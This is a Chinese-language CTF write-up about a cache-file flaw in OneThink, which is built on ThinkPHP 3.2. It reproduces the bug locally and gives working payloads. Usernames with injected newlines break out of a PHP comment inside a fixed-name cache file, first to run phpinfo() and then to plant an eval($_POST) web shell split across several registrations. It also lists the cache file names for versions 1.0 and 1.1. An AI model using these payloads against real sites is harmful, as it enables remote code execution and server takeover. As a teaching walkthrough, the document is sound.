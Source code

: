 ```yaml
---
title: OneThink--ThinkPHP3.2 缓存文件泄露
date: 2018-03-21 00:00:00
categories:
- CTF/Web
tags: 百度杯二月 OneThink ThinkPHP 缓存文件
--- 
```


## 框架漏洞

[thinkphp框架写的开源系统或被getshell tp官方onethink举例
](http://www.hackdig.com/06/hack-36510.htm)

因为尝试访问/Runtime/Temp/2bb202459c30a1628513f40ab22fa01a.php的确成功，所以很有可能就是这个漏洞。虽然图都挂掉了，但是大概也能看懂。漏洞的成因大概就是ThinkPHP框架的缓存函数S()是以File方式，在/Runtime/Temp下生成缓存php文件，而且缓存文件名固定。另外乌云的这个漏洞详情没有公开，能找到的文章只有这篇。


## 本地搭建

[https://github.com/liu21st/onethink/releases](https://github.com/liu21st/onethink/releases)

一不小心下成了1.1版本，不过应该也没有太多的不同，这里我需要安装两个所需的php插件，并设置可写

```bash
$ yum install php-mbstring
$ yum install php-gd
$ chmod  777 -R  wwwroot
```


浏览/Runtime/Temp目录发现如下文件：
```
27cdbc1fb1747e4f56dfb350211408e1.php
2923514e8f7dfe49ac5aebd5073e6000.php
5f172c2585b382a65d91e0c51a64dc7f.php
77278367caf1eb2690f686654d77e163.php
ea40274ec2c219aa956e2d44e586834d.php
```


其中如下两个文件是跟用户有关的文件：
```
5f172c2585b382a65d91e0c51a64dc7f.php
ea40274ec2c219aa956e2d44e586834d.php
```


这个两个文件内容一样，但不一定同时存在，内容如下：
```php
<?php
//000000000000a:1:{s:2:"u1";s:13:"Administrator";}
?>
```

## 分析利用

如果用户名中存在用换行符或者回车，即可让语句从单行注释中逃逸出来：如注册一个名为`%0aphpinfo();//`的用户并登陆，这里需要注意注册以及登陆框会将输入url编码，所以要在burp里还原%0a，顺便吐槽一下验证码，太难看清了。登陆前只有ea的一个文件，登陆后5f文件也出现了。观察这两个文件内容如下：

```php

<?php
//000000000000a:2:{s:2:"u1";s:13:"Administrator";s:2:"u2";s:13:"
phpinfo();//";}

```


访问/wwwroot/Runtime/Temp/ea40274ec2c219aa956e2d44e586834d.php 查看phpinfo()成功，所以可以开心的写木马了，但是这里限制了用户名为16个字符，所以只能分开写：

```php
%0a@eval($_POST[0]);//  [20个字符]


%0a$a=$_POST[0];//      [16个字符]
%0a@eval($a);//         [13个字符]
```


注册完分别登录，换存文件就变成如下，菜刀链接即可，flag就在根目录下

```php
<?php
//000000000000a:2:{s:2:"u1";s:13:"Administrator";s:2:"u2";s:13:"
phpinfo();//";s:2:"u5";s:16:"
$a=$_POST[0];//";s:2:"u7";s:13:"
@eval($a);//";}
```

## 版本不同


1.0 的缓存文件名为：
- 2bb202459c30a1628513f40ab22fa01a.php
- 865e8245bc0c525aa4a48bfb433d7c3e.php


1.1 的缓存文件名为：
- 5f172c2585b382a65d91e0c51a64dc7f.php
- ea40274ec2c219aa956e2d44e586834d.php